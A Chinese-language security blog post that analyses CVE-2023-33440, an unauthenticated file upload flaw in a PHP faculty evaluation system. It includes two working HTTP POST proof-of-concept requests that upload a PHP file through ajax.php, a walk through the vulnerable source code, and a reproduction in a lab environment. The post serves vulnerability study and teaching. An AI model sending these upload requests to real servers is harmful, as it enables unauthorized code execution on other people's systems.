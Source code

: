 #  CVE-2023-33440源码分析   
 青春计协   2025-01-20 02:34  
  
# CVE-2023-33440源码分析  
# 免责声明  
> 由于传播、利用本公众号"小妖怪想学安全  
> "所提供的信息而造成的任何直接或者间接的后果及损失,均由使用者本人负责,公众号"小妖怪想学安全"及作者不为此承担任何责任,一旦造成后果请自行承担!如有侵权烦请告知,我们会立即删除并致歉谢谢！  
  
# 0、漏洞描述  
  
oretnom23 的教师评估系统 v1.0 具有未授权文件上传功能  
  
源码下载地址：  
  
https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html  
# 2、CVE编号  
  
CVE-2023-33440  
# 3、源码分析-update_user  
1. 先分析poc  
```
POST /ajax.php?action=update_user HTTP/1.1Host: xxx.comUser-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0Accept: */*Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3Accept-Encoding: gzip, deflateX-Requested-With: XMLHttpRequestContent-Length: 741Content-Type: multipart/form-data; boundary=---------------------------166782539326470Connection: close-----------------------------166782539326470Content-Disposition: form-data; name="id"1-----------------------------166782539326470Content-Disposition: form-data; name="firstname"Administrator-----------------------------166782539326470Content-Disposition: form-data; name="lastname"a-----------------------------166782539326470Content-Disposition: form-data; name="email"admin@admin.com-----------------------------166782539326470Content-Disposition: form-data; name="password"admin-----------------------------166782539326470Content-Disposition: form-data; name="img"; filename="php.php"Content-Type: application/octet-stream<?php phpinfo();?>-----------------------------166782539326470--
```  
  
  
1. 通过poc可以注意一个三个点：  
  
1. 漏洞是在那个文件产生的：ajax.php  
  
1. 传递的参数：action=update_user  
  
1. 漏洞类型：文件上传  
  
1. 来到下载好的源码中，找到ajax.php，并打开，两个重要的点  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/n2niaaLpv8lC5FFAJWIjsAsBdSTjnFCmvGCoTgrvibWupr83yBFeml9C49F97gWXN1ck9Sia9L6ZZJsV0MGbic9KIA/640?wx_fmt=png&from=appmsg "")  
  
  
1. 包含了：**admin_class.php**  
  
1. 当**action**  
的值为**update_user**  
时就会执行**Action类中大的update_user()方法**  
  
1. 现在来到**admin_class.php**  
，文件，可以看到这个文件里边就有Action这类的源码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/n2niaaLpv8lC5FFAJWIjsAsBdSTjnFCmvA75q3ruZ3Dz3ybegIHB67GC0OXncRHQfNvAEBIGicJkWp0Eaxm9ZzAw/640?wx_fmt=png&from=appmsg "")  
  
  
1. 现在就直接在这个类里边找，**update_user**  
的源码，实现了文件上传的功能，并且没有任何拦截，并且在传递参数时，如果有id有值就打印整个查询语句  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/n2niaaLpv8lC5FFAJWIjsAsBdSTjnFCmv1CehVia8E2a5Ua5yFia3hiaLDSZJ9tdhgwSLhHYyUiaHRBRYmlJabQia90A/640?wx_fmt=png&from=appmsg "")  
  
  
1. 所以现在可以重构一下poc，这样就简单一点了  
```
POST /ajax.php?action=update_user HTTP/1.1Host: xxx.comUser-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0Accept: */*Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3Accept-Encoding: gzip, deflateX-Requested-With: XMLHttpRequestContent-Length: 312Content-Type: multipart/form-data; boundary=---------------------------166782539326470Connection: close-----------------------------166782539326470Content-Disposition: form-data; name="id"1-----------------------------166782539326470Content-Disposition: form-data; name="img"; filename="php.php"Content-Type: application/octet-stream<?php phpinfo();?>-----------------------------166782539326470--
```  
  
  
# 4、源码分析-save_user  
1. 在ajax.php文件中还有一个**save_user**  
，值也一样存在相同的漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/n2niaaLpv8lC5FFAJWIjsAsBdSTjnFCmvt1Qgrp3DjUUHhtT0SBvlEkPXicAicprOVFMrW7piaPnYibagRbqCFphESg/640?wx_fmt=png&from=appmsg "")  
  
1. 直接来到**admin_class.php**  
，的**save_user**  
方法，和上边是一样的  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/n2niaaLpv8lC5FFAJWIjsAsBdSTjnFCmvShicEMEwsK0IDmBFN57IQyub3Xic0t4kx16jOehfEhsRnr2RzMbcemjw/640?wx_fmt=png&from=appmsg "")  
  
  
1. 这里和上边不一样的点就是，不会打印文件名，但是这个文件名是通过时间戳生产的  
  
# 5、复现  
1. 直接去春秋云境：https://yunjing.ichunqiu.com/cve/detail/1123?pay=2  
  
搜索该漏洞编号即可进行复现  
  
1. 发包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/n2niaaLpv8lC5FFAJWIjsAsBdSTjnFCmvCAibstKpCVOcHrnNAkoWcUsiaW492aHcBeicAfSqlg6WzD4lhmg1c7U1g/640?wx_fmt=png&from=appmsg "")  
  
  
1. 访问上传的文件  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/n2niaaLpv8lC5FFAJWIjsAsBdSTjnFCmvoavwaDLNsO1j67Zp4AianHMTphxqgBVCIUyYZ6Zg2m5yeiaicZiaPC1EZw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
